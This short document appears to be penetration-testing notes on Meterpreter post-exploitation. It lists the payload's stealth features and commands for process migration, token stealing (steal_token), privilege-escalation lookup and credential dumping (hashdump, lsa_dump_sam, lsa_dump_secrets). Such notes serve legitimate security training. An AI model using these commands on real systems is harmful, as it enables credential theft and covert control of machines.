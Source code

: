 
DLL injection to ensure connection is stable and difficult to detect. Can be configured for persistence.

meterpreter >

```shell-session
help
```

- Stealthy
- Powerful
- Extensible

- In memory
- Injected into compromised process
- Communication is encrypted with AES
- Modular

Migration
```shell-session
ps
```
```shell-session
steal_token 1836
```

Escalate privileges
```shell-session
bg
```
```shell-session
search local_exploit_suggester
```

Stealing hashes
```shell-session
hashdump
```

```shell-session
lsa_dump_sam
```
```shell-session
lsa_dump_secrets
```


